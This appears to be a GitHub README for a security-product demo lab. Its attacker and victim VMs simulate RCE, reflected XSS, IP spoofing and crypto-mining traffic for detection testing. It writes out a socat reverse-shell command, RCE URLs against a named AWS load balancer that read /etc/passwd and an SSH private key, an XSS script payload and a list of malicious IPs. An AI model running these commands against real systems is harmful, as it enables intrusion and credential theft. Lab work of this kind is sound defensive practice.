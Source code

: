 # 🧪 Attack Simulation Lab

This demo simulates various types of attacks within your **own VPC environment**. It includes Remote Command Execution, Reflected XSS, IP Spoofing, and simulates known bad IP behavior. **For educational and demonstration purposes only.**

![image](https://github.com/user-attachments/assets/16d33c34-aa16-4880-8544-c2d1c8d113e6)


---

## 🛠️ Preparations

git clone https://github.com/svuillaume/demo_simulator

### 1. Launch Two VMs
- **Attacker VM**
- **Victim VM**

---

## 🧰 Attacker VM Setup

1. **Install Docker**
2. **Deploy Lacework Agent**

---

## 🎯 Victim VM Setup

1. **Install dependencies**
   ```bash
   sudo apt update
   sudo apt install python3 python3-pip -y
   pip3 install flask
   ```

2. **Set up the attack simulation script**
   ```bash
   chmod +x demo_simulator/lw_attack_sim.sh
   ```

3. **Update crypto pools in the script**  
   Use custom pool URLs:
   - `evil.v2.xmrig.com`
   - `donate.v2.xmrig.com`

4. **Edit `/etc/hosts` to redirect mining pools to attacker**
   ```plaintext
   127.0.0.1 localhost
   <Attacker-IP> donate.v2.xmrig.com
   ```

5. **Run the Flask application**
   ```bash
   python3 app.py
   ```

---

## ▶️ Running the Simulation

### On the Attacker VM (Open 2 Terminals or use screen)

sudo apt install screen    # Debian/Ubuntu
sudo yum install screen    # RHEL/CentOS


**Create a persistent socket listener on Terminal 1 or screen 1:**
```bash
nc -k -l 3333 &
```
**Create a new socat tcp listener on tcp 5555**

```bash
socat file:`tty`,raw,echo=0 tcp-listen:5555
```

**Run traffic simulation with k6 on Terminal 2 or screen 2:**
```bash
sudo docker run --rm -v $(pwd):/scripts grafana/k6 run /scripts/k6.js
```

---

### On the Victim VM

**Run the attack simulation script:**
```bash
./demo_simulator/lw_attack_sim.sh
```

**Intiate an interactive Reverse Shell**
```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:172.31.30.103:5555
```
---

## 🚀 HOWTO Use the Demo


On the Attacker VM, run K6.js and owasp_attack.sh

> ⚠️ **IMPORTANT:** All tests must be run within your **own VPC lab environment**.

### 🔓 Remote Command Execution (RCE)

Submit OS commands via the vulnerable Flask app:

***(aws ALB) http://samv-alb-1759994858.ca-central-1.elb.amazonaws.com:5000/***

```bash
http://samv-alb-1759994858.ca-central-1.elb.amazonaws.com:5000/cmd?exec=cat%20/etc/passwd
http://samv-alb-1759994858.ca-central-1.elb.amazonaws.com:5000/cmd?exec=cat%20/.ssh/id_rsa
```
---

### 💬 Reflected XSS

Test for reflected XSS using the greet endpoint:

- [Greet](http://<victim_IP>:5000/greet)

**Example:**
```
http://<victim_IP>:5000/greet?name=<script>alert('GotYou :)')</script>
```

---

### 🌐 Client IP Logging

Test client IP extraction:

- [Client IP](http://<victim_IP>:5000/client-ip)

**Spoof IP via curl:**
```bash
curl -H "X-Forwarded-For: 1.2.3.4" http://<victim_IP>:5000/client-ip
```

---

## 🚨 Known Bad IPs for Simulation (Use with Caution)

| IP Address       | Description                                   |
|------------------|-----------------------------------------------|
| `45.227.253.55`  | Malware C2 - AbuseIPDB                        |
| `185.220.101.1`  | Tor exit node (flagged)                       |
| `1.3.3.7`        | Red team/meme IP                              |
| `222.186.30.50`  | Brute-force attacker (common honeypot source) |
| `89.248.167.131` | Blacklisted scanner (abuse reports)           |
| `23.129.64.50`   | Tor exit node - flagged in feeds              |

> ⚠️ **Do NOT scan or connect to these IPs from outside your VPC. Use only for simulation/logging tests.**

---

## ✅ You're now ready to simulate attacks!
Happy testing — use responsibly in isolated environments.

